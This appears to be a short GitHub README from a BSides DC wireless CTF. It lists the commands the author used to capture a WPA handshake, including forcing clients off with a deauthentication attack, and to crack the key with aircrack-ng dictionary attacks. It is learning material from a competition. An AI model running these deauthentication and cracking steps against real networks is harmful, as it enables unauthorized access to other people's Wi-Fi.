 # How to haxx0r WPA!!
![BSides DC 2017](wirelessvillage.png?raw=true "My first wireless CTF ever!")

## Introduction
This is a very rough draft explaining the commands I used to crack my first WPA
network.  I created this file mostly for my benefit as I was learning, but I
figured it may save someone else out there someday from having to regrok more
manpages.  (To the aircrack guys' credit, their manpages are excellently
written.)  I will publish my full cracking scripts at a later date.

## Get some handshakes
```
iwlist [CARD] scan
iwconfig [CARD] channel [CHANNEL_NUM]
aireplay-ng -0 2 -a [BSSID] [CARD]
airodump-ng --output-format pcap -w capshur -c [CHANNEL] [CARD]
wpaclean [OUTFILE] [INFILE(s)]
```

## Get crackin'
You now should have your handshake if you did the previous steps right.  You
now must crack it to uncover the pre-shared key (PSK).  You can use a bute-force attack, a dictionary attack, or a hybrid of the two.

### Pure Butal
```
wpapcap2john + JtR
aircrack-ng + hashcat
```

### A Basic Dictionary Attack
```
aircrack-ng -s -l wctf_05.psk -w super.words -e WCTF_05 superclean.cap
aircrack-ng -s -l [KEY OUTFILE] -w [WORDLIST] -e [ESSID] [CAPFILE]
```

### Hybrid
Read the John and Hashcat manpages for more info on how to carry out their
respective hybrid attacks.
